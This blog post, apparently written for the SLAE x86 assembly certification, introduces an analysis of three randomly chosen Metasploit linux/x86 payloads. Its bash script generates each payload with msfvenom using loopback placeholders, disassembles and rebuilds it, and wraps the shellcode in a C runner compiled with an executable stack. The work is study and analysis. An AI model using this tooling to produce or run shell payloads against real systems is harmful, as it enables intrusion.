 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 5"
description: "SLAE x86 Exam Part 5: MSF Payload Analysis"
modified: 2018-06-03T13:00:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---

Exercise #5 involves selecting 3 linux/x86 payloads generated by Metasploit 
and analyzing them.  As an extra challenge, I elected to perform this exercise 
blind: I wrote a script to randomly select 3 payloads from the linux/x86 list. 

{% highlight bash %}

#!/bin/bash

# Look at single payloads in /linux/x86/:
ARCH="linux/x86"
PAYLOADS=$(find /usr/share/metasploit-framework/modules/payloads/singles/${ARCH} -type f \
    | rev | cut -d/ -f1 | rev | cut -d. -f1 | sort)

# Generate 3:
for x in {1..3}; do
    # Get payload count, then select an index at random and return its name
    P_LEN=$(echo "${PAYLOADS}" | wc -l)
    P_IDX=$((1 + RANDOM % ${P_LEN}))
    PAYLOAD=$(echo "${PAYLOADS}" | head -n ${P_IDX} | tail -n1)

    # Print header
    echo -e "global _start\n\nsection .text\n_start:" > ${x}.nasm

    # Generate the selected payload. Use dummy data for any fields likely to 
    # be required. Then, strip out instructions, build, and link
    msfvenom -p ${ARCH}/${PAYLOAD} \
        PATH=/etc/hostname \
        RHOST=127.1.1.1 \
        RPORT=4444 \
        LHOST=127.1.1.1 \
        LPORT=4444 \
        CPORT=4444 \
        CMD=id \
        | ndisasm -b32 - > ${x}.asm
    sed -r 's/^[0-F]+\s+[0-F]+\s+/    /g' ${x}.asm >> ${x}.nasm
    nasm ${x}.nasm -f elf32 -o ${x}.o
    ld -m elf_i386 -o ${x} ${x}.o

    # Insert shellcode into .c template and compile
    SHELLCODE=$(cat ./${x}.asm | awk '{print $2}' | tr -d '\n' | sed -r 's/(..)/\\x\1/g')
    cat > ${x}.c << EOF
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "${SHELLCODE}";

int main(int argc, char **argv) {
    int (*ret)() = (int(*)())shellcode;

    ret();
}
EOF
    gcc -ggdb3 ${x}.c -o ${x} -fno-stack-protector -z execstack
done
{% endhighlight %}

(Note: I'm using msfvenom to generate payloads since msfpayload is deprecated)

# Exercises
 * [Payload #1](/slae-5-msf1)
 * [Payload #2](/slae-5-msf2)
 * [Payload #3](/slae-5-msf3)

